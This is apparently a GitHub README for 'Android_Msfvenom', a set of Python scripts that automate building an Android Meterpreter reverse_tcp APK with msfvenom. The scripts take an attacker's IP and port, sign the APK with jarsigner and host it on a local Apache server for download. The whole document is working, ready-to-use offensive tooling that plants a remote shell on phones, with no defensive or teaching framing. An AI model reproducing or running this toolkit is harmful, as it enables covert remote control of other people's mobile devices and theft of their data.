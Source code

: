 ```
 ______  __   __  _____   ______  ______  __  _____       ______  ______  ______  ______  ______  ______    
/\  __ \/\ "-.\ \/\  __-./\  == \/\  __ \/\ \/\  __-.    /\  __ \/\  ___\/\  ___\/\  ___\/\  ___\/\  ___\   
\ \  __ \ \ \-.  \ \ \/\ \ \  __<\ \ \/\ \ \ \ \ \/\ \   \ \  __ \ \ \___\ \ \___\ \  __\\ \___  \ \___  \  
 \ \_\ \_\ \_\\"\_\ \____-\ \_\ \_\ \_____\ \_\ \____-    \ \_\ \_\ \_____\ \_____\ \_____\/\_____\/\_____\ 
  \/_/\/_/\/_/ \/_/\/____/ \/_/ /_/\/_____/\/_/\/____/     \/_/\/_/\/_____/\/_____/\/_____/\/_____/\/_____/ 
```                                                                                                  
#Android_Msfvenom
__DESCRIPTION__: A faster way to generate and sign *android files*, for mobile access (Can be hosted on a local apache server)
------------------------------------------------------------------------------------------------------------------------
__FILE__: [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py)

__USE__: This file is used to generate the apk (Android Package Kit) using metasploits [Msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

```python
import os
import time
import android_signer
import apache_server
import subprocess

#def the function to generate the apk
def android_msfvenom():
    get_gen = raw_input('[+] Generate apk using msfvenom: ')
    if get_gen == 'yes' or get_gen == 'y':
        get_name = raw_input('[+] Enter the name of the desired apk file: ')
        try:
            apk_name = get_name
        except Exception:
            print('[+] Failed to set name: {}! Exitting...'.format(apk_name))
            time.sleep(3)
        else:
            print('[+] Name set to: {}'.format(get_name))
            
        #try to change the directory
        login = os.getlogin()
        print('[+] Attempting to change directory to /{}/Desktop'.format(login))

        try:
            os.chdir('/{}/Desktop'.format(login))
        except Exception:
            working_direc = os.getcwd()
            print('[+] Could not change the directory to the desktop, look for file under {}'.format(working_direc))
        else:
            print('[+] Directory set to {}'.format(os.getcwd()))

        #get LHOST and LPORT
        get_host = raw_input('[+] Enter ip address: ')
        get_port = raw_input('[+] Enter connect back port: ')
        print('[+] Generating apk(defaulting to desktop)...')
        try:
            subprocess.call(('msfvenom -p android/meterpreter/reverse_tcp LHOST={} LPORT={} R > {}.apk'.format(get_host, get_port, get_name)), shell=True)
        except Exception:
            print('[+] Failed to generate apk! Exitting...')
            time.sleep(3)
        else:
            print('[+] Apk file successfully created! File located in {}'.format(os.getcwd()))

    elif get_gen == 'no' or get_gen == 'n':
        print('[+] Quittting...')
        exit()
        time.sleep(3)

android_msfvenom()
android_signer.sign_apk()
```

__FILE__: [android_signer.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/android_signer.py)

__USE__: This file is used to sign the apk file, that can be created using [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py), the file is then signed using [jarsigner](http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html), with a validity of [10,000 days](https://www.google.com/webhp?sourceid=chrome-instant&ion=1&espv=2&ie=UTF-8#q=10+000+days+in+years) (27 years)

```python
import os
import time
import apache_server
import subprocess

#def the function to sign the apk
def sign_apk():
    os.chdir(('/{}/Desktop'.format(os.getlogin())))
    subprocess.call('ls -alt', shell=True)
    get_apk = raw_input('[+] Enter the name of the apk file: ')

    try:
        keystore = raw_input('[+] Enter key store name (d for default): ')
        if keystore == 'd':
            keystore = 'my-release-key'
        else:
            keystore = keystore
        subprocess.call(('keytool -genkey -V -keystore {}.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000'.format(keystore)), 
                                                                                                                                        shell=True)
    except Exception:
        print('[+] Could not generate keystore, alias, keyalg, or keysize! Validity set to 0! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Keystore, Alias, Keyalg, Keysize, and validity generated! Executing Jarsigner... ')

    try:
        subprocess.call(('jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore {}.keystore {} alias_name'.format(keystore, get_apk)), 
                                                                                                            shell=True)
    except Exception:
        print('[+] Could not execute jarsigner command line arguments! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Successfully executed jarsigner! Checking if {} was successfully signed...'.format(get_apk))

    try:
        subprocess.call(('jarsigner -verify -verbose -certs {}'.format(get_apk)), shell=True)
    except Exception:
        print('[+] Could not verify that the apk {} was signed! You may run into problems later! Exitting...'.format(get_apk))
        time.sleep(3)
        exit()
    else:
        print('[+] Apk file {} was signed successfully! Executing apache server function...'.format(get_apk))
        time.sleep(2)
        server_start()

def server_start():
    apache_server.start_apache()
```

__FILE__: [apache_server.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/apache_server.py)

__USE__: This file is used to start the [apache2](https://httpd.apache.org/) server (/etc/init.d/apache2 start), and upload the generated apk file to /var/www/html

```python
import time
import os
import subprocess
from datetime import datetime

#def the function for uploading the apk file to the server
def start_apache():
    print('[+] Starting apache server...')
    time.sleep(3)
    try:
        subprocess.call('service apache2 start', shell=True)
    except Exception:
        print('[+] Could not start apache server! Exitting...')
        time.sleep(3)
        exit()
    else:
        subprocess.call('ls -alt /var/www/html', shell=True)
        print('[+] Apache server started!')
        time.sleep(3)
        server_upload()
        
def server_upload():
    subprocess.call('ls -alt', shell=True)
    file_upload = raw_input('[+] Apache server started! Choose file to upload to server: ')
    try:
        subprocess.call(('mv /{}/Desktop/{} /var/www/html'.format(os.getlogin(), file_upload)), shell=True)
    except Exception:
        print('[+] Could not move /{}/Desktop/{} to /var/www/html! Try moving the file manually! Apache server is up and running! Exitting...')
        time.sleep(3)
        exit()
    else:
        ip = raw_input('[+] Enter current ip address: ')
        print('[+] Ip address set to: {}'.format(ip))
        check_file = raw_input('[+] /{}/Desktop/{} was successfully move to /var/www/html! Open browser to view uploads: '.format(os.getlogin(),
                                                                                                                                    file_upload))
        if check_file == 'yes' or 'y':
            print('[+] Starting browser...')
            time.sleep(3)
            try:
                subprocess.call(('firefox {}'.format(ip)), shell=True)
            except Exception:
                print('Firefox is not installed! Trying Chrome...')
                try:
                    subprocess.call(('chrome {}'.format(ip)), shell=True)
                except Exception:
                    print('Chrome is not installed! Trying iceweasel...')
                    try:
                        subprocess.call(('iceweasel {}'.format(ip)), shell=True)
                    except Exception:
                        system = platform.system()
                        print('[+] Could not determine browser running on your {} machine! Try navigating manually! Exitting...'.format(system))
                        time.sleep(3)
                        exit()
                    else:
                        print('[+] Finished with exit code 0!')
                        exit()
                else:
                    print('[+] Finished with exit code 0!')
                    exit()
            else:
                print('[+] Finished with exit code 0!')
                exit()
        elif check_file == 'no' or check_file == 'n':
            print('[+] Exitting...')
            time.sleep(3)
```


